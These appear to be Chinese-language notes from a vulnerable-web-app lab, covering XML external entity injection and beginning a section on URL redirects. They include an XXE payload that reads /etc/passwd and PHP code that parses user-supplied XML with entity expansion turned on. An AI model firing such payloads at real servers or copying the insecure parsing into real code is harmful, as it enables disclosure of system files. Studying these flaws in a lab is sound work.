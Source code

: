 ## XXE

### 概述

XXE , xml external entity injection ， 即 XML 外部实体注入漏洞，其利用原理是攻击者向服务器注入精心构造的恶意 XML 实体内容，从而让服务器按照指定配置进行执行，从而导致问题

### XXE

#### 漏洞利用

阅读源码后得出的 POC 与 payload 如下

```XML
<?xml version = "1.0"?>
<!DOCTYPE note [
    <!ENTITY hacker "7erry">
]>
<name>&hacker;</name>
```

```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
```

#### 漏洞代码解读

```PHP
if(isset($_POST['submit']) and $_POST['xml'] != null){


    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}
```

## URL 重定向

### 概述

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方。
如果后端采用了前端传进来的(可能是用户传参, 或者之前预埋在前端页面的 url 地址)参数作为了跳转的目的地, 而又没有做判断的话
就可能发生 "跳错对象" 的问题。
